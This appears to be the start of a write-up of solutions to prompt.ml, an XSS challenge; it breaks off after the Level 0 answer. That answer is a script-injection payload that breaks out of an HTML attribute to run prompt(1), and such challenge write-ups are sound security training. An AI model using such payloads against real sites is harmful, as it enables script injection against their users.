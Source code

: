 # prompt.ml - prompt(1) to Win
## What is prompt.ml?


## Solutions
### Level 0
```html
"><script>prompt(1);</script></pre>
```

### Level 1
